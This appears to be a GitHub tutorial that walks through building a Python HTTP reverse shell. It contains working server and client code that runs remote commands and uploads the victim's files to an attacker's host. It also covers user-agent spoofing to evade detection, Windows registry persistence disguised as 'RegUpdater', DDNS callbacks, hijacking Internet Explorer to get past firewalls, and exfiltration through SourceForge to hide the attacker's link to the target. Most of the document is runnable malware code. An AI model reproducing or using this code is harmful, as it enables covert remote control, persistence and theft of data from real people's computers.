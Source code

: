 # HTTP reverse shell

*httpserver.py* :

```python
import http.server
import os, cgi

HOST_NAME = "192.168.1.42"
PORT_NUMBER = 8080

class MyHandler(http.server.BaseHTTPRequestHandler):
    
    def do_GET(self):
        command = input("Shell> ")
        self.send_response(200)
        self.send_header("Content-type", "text/html")
        self.end_headers()
        self.wfile.write(command.encode()) # equivalent to send() function in tcp reverse shell

    def do_POST(self):
        if self.path == '/store':
            try:
                ctype, pdict = cgi.parse_header(self.headers.get('content-type'))
                if ctype == 'multipart/form-data':
                    fs = cgi.FieldStorage(fp=self.rfile, headers = self.headers, environ={'REQUEST_METHOD': 'POST'})
                else:
                    print('[!!] Unexpected POST request')
                fs_up = fs['file']
                with open('/root/place_holder.txt', 'wb') as o:
                    print("[+] Writing file...")
                    o.write(fs_up.file.read())
                    self.send_response(200)
                    self.end_headers()
            except Exception as e:
                print(e)
            return
        self.send_response(200)
        self.end_headers()
        length = int(self.headers['Content-length'])
        postVar = self.rfile.read(length) # equivalent to recv() function in tcp reverse shell

        print(postVar.decode())

if __name__ == "__main__":
    server_class = http.server.HTTPServer
    httpd = server_class((HOST_NAME, PORT_NUMBER), MyHandler)
    try:
        httpd.serve_forever()
    except KeyboardInterrupt:
        print("[ ] Server is terminated")
        httpd.server.close()

```

*httpclient.py* :
```python
import requests
import os
import subprocess
import time

while True:
    req = requests.get('http://192.168.1.42:8080')
    command = req.text
    if 'terminate' in command:
        break
    elif 'grab' in command:
        grab, path = command.split("*")
        if os.path.exists(path):
            url = "http://192.168.1.42:8080/store" # /store means that we are sending a file over http
            files = {'file': open(path, 'rb')} # here we need to pass a dictionnary with a key named "file" and the object is the file itself
            r = requests.post(url, files=files) # be aware that file contain header "multipart/form-data"
    else:
        CMD = subprocess.Popen(command, shell=True, stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
        post_response = requests.post(url='http://192.168.1.42:8080', data=CMD.stdout.read())
        post_response = requests.post(url='http://192.168.1.42:8080', data=CMD.stderr.read())
    time.sleep(3)
```

For now on a POST looks like this in wireshark :<br>
<img src=https://github.com/sirbrowser/astroworld/blob/master/images/wireshark.png><br>
We can see that the user-agent is not legit at all so we need to change it in clienthttp.py:<br>
We add a variable `headers = {'User-Agent': 'mozilla/5.0'}`<br>
And in each we add this variable in all requests.post : `r = requests.post(url, files=files, headers=headers)`<br>

Now we have this in wireshark :<br>
<img src=https://github.com/sirbrowser/astroworld/blob/master/images/wireshark2.png><br>

For making our reverse shell persistent we need to add to the client.py:<br>
```python
path = os.getcwd().strip('\n') # getcwd = get current working directory

Null, userprof = subprocess.check_output('set USERPROFILE', shell=True, stdin=subprocess.PIPE, stderr=subprocess.PIPE).decode().split('=')

destination = userprof.strip('\n\r') + '\\AppData\\' + '\\roaming\\' + 'client.exe'

if not os.path.exists(destination):
    shutil.copyfile(path+'\client.exe', destination)
    key = wreg.OpenKey(wreg.HKEY_CURRENT_USER, "Software\Microsoft\Windows\CurrentVersion\Run", 0, wreg.KEY_ALL_ACCESS)
    wreg.SetValueEx(key, 'RegUpdater', 0, wreg.REG_SZ, destination)
    key.Close()
```

#### DDNS Aware shell
The problem here is that our attacker ip can change and you have to change the client.py.<br>
For this we can use [noip](https://www.noip.com/) that will reserve a dns server and address dynamically the adress in our client.py:<br>
in the main we need to add :<br>
`ip = socket.gethostbyname("<your ddns.net server>")`<br>
and add that ip variable in the `s.connect(())` function<br>

#### Bypassing Host Firewall
The problem here is if the internal firewall of the target machine as rules that allows internet explorer and chrome for example to have acces to internet and python is blocked, then our script cannot be executable.<br>
The solution here is to hijack Internet Explorer to run our reverse shell over IE, or any other program that is allowed to connect to internet.<br>
With this we are not worried about proxy bypassing, cause IE is normally integrating the administrator proxy.<br>
We need :
`pip install pypiwin32`<br>
`pip install pywin32`<br>
We need to use the COM in windows which stands for [Component Object Model](https://en.wikipedia.org/wiki/Component_Object_Model)<br>
```python
from win32com.client import Dispatch
from time import sleep
import subprocess

ie = Dispatch("InternetExplorer.Application")
ie.Visible = 0 # 0 runs IE in background and 1 opens a IE window

# Parameters for POST
dURL = "http://192.168.1.42"
Flags = 0
TargetFrame = 0

while True:
    ie.Navigate("http://192.168.1.42") #Load a page on the specified url
    while ie.ReadyState != 4: #when a page is loaded ReadyState() return 4 so we check until it is 4
        sleep(1)

    command = ie.Document.body.innerHTML
    command = command.encode()
    print(command.decode())

    if 'terminate' in command.decode():
        ie.Quit()
        break
    else:
        CMD = subprocess.Popen(command.decode(), shell=True, stdin=subprocess.PIPE, stderr=subprocess.PIPE, stdout=subprocess.PIPE)
        Data = CMD.stdout.read()
#        print(Data)
        PostData = memoryview( Data ) #we need this because we are using COM
        ie.Navigate(dURL, Flags, TargetFrame, PostData)
#        print(check)
    sleep(3)
```

To bypass General firewall of the company we can use trusted websites. For example we will use [sourceforge](https://sourceforge.net/) so the target will send files to sourceforge over SCP and we will get back the files with FTP and filezilla on our kali so there is not link between the target and us.<br>
We need to create an account on sourceforge<br>
- Then `apt-get install filezilla` --> on kali<br>
- `pip install paramiko`<br>
- `pip install scp`<br>

Then we connect to our sourceforge in filezilla :<br>
<img src=https://github.com/sirbrowser/astroworld/blob/master/images/sourceforge.png><br>

and ou script looks like this :<br>
```python
import paramiko
import scp

ssh_client = paramiko.SSHClient()

ssh_client.set_missing_host_key_policy(paramiko.AutoAddPolicy())

ssh_client.connect("web.sourceforge.net", username="<sourceforge_username>", password="<sourceforge_pwd>")
print("[..] Authenticatin on sourceforge...")

scp = scp.SCPClient(ssh_client.get_transport())

scp.put("C:/Users/benja/Desktop/sarah.txt")
print("[+] File uploaded")

scp.close()

```

